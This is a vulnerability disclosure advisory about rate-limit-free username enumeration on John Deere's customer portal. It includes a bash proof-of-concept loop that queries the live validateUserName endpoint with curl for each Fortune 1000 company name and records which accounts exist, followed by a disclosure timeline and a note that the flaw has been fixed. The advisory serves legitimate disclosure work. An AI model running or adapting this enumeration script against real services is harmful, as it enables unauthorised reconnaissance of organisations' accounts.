 ### Title
John Deere Account Portal - Information Disclosure - Rate Limitless Username Enumeration Via Unauthenticated Availability Lookups.

### CVE ID
Not applicable -> vulnerability is site-specific.

### CVSS Score
N/A

### Internal ID
SICK-2021-012
        
### Vendor
John Deere
        
### Product
My John Deere Portal

### Product Versions
Website Last Edited March 3

### Vulnerability Details

A username enumeration vulnerability in the John Deere Web Portal (myjohndeere) sign-up form allows an unauthenticated remote attacker to submit unlimited requests, resulting in potential mass username enumeration. A remote unauthenticated attacker can simply remove the cookie from the original request and replay an unlimited volume of username availability requests. An unauthenticated remote attacker can easily enumerate an organization's account username by submitting permutations of a target, with no observable rate-limit.

### Vendor Response
Submitted to vendor

### Proof of Concept

In this proof of concept I simulate a targetted, yet unsophisticated username enumeration of the Fortune 1000 list.

If an attacker would like to know which of the world's Fortune 1000 companies have a myjohndeere account:

```bash

# download  an arbitrary list, for example, Fortune 1000 https://github.com/dmarcelinobr/Datasets
wget https://raw.githubusercontent.com/dmarcelinobr/Datasets/master/Fortune1000.csv

while IFS=, read -r COMPANY JUNK; do
    TRIMMED_COMPANY="$(tr -dc "[:alnum:]" <<< "${COMPANY}")"
    echo "${TRIMMED_COMPANY}"
    USERNAME="${TRIMMED_COMPANY}"
    RESPONSE="$(curl 'https://myjohndeere.deere.com/wps/PA_myjd_live/struts/validateUserName' -H 'User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0' -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://myjohndeere.deere.com' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Sec-GPC: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw "userName=${USERNAME}")"
    echo "${USERNAME}"$'\t'"${RESPONSE}" >> results.tsv
done < Fortune1000.csv

```

Results of Proof of Concept:

192/1000 alphanumeric only versions of Fortune 1000 companies retained an account.

```
===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":"This username is already taken; please try again"}
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":"This username is already taken; please try again"}
 {"error":""}===REDACTED===  
 {"error":"This username is already taken; please try again"}
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":"This username is already taken; please try again"}
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":""}===REDACTED===  
 {"error":"This username is already taken; please try again"}
 {"error":""}

...

...

...

```

Fixed version has a 10 second hard rate limit plus maximum username lookups are 5, until the submission is rejected.

```
 {"error":""}
 {"error":""}
 {"error":"This username is already taken; please try again"}
 {"error":""}
 {"error":""}
 {"error":"The Registration service is temporarily unavailable. Please try after some time"}
```

#### Disclosure Timeline
* **2021-03-25** - Researchers discover vulnerability
* **2021-03-25** - CVE requested
* **2021-03-25** - Vendor notified via vulnerability submission form
* **2021-03-29** - Researchers DM's vendor Twitter
* **2021-03-29** - Vendor instructs researcher to submit research to their social media team
* **2021-04-01** - Vendor tells researcher to submit via HackerOne
* **2021-04-02** - HackerOne confirms with researcher that John Deere does not have a program (private, nor public)
* **2021-04-02** - Vendor Engineering Manager responds to form submitted on 2021-03-25
* **2021-04-02** - Researcher confirms vulnerability is minor, but recommends Vendor do not solicit vulnerability reports via a shared social media emaill address
* **2021-04-10** - Researcher requests an update
* **2021-04-12** - Vendor confirms researcher had difficulty contacting them
* **2021-04-12** - Researcher requests public disclosure due to missing VDP and asks if Vendor has a Bug Bounty program
* **2021-04-12** - Researcher discovers much more serious vulnerability: [https://sick.codes/sick-2021-031](https://sick.codes/sick-2021-031)
* **2021-04-21** - Researcher rejects odd non-disclosure no bounty VDP invitation
* **2021-04-21** - Researcher self-confirms vulnerability mitigated

### Links

[https://www.deere.com/](https://www.deere.com/)

[https://myjohndeere.deere.com/mjd/my/login](https://myjohndeere.deere.com/mjd/my/login)

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-012.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-012.md)

[https://sick.codes/sick-2021-012](https://sick.codes/sick-2021-012)

### Researchers


Sick Codes: [https://twitter.com/sickcodes](https://twitter.com/sickcodes) || [https://github.com/sickcodes](https://github.com/sickcodes)

Kevin Kenney: [https://twitter.com/GrassrootsKK](https://twitter.com/GrassrootsKK) || [https://www.linkedin.com/in/kevin-kenney-04645826](https://www.linkedin.com/in/kevin-kenney-04645826)

Willie Cade: [https://twitter.com/WillieCade7](https://twitter.com/WillieCade7)


#### CVE Links

Not Applicable
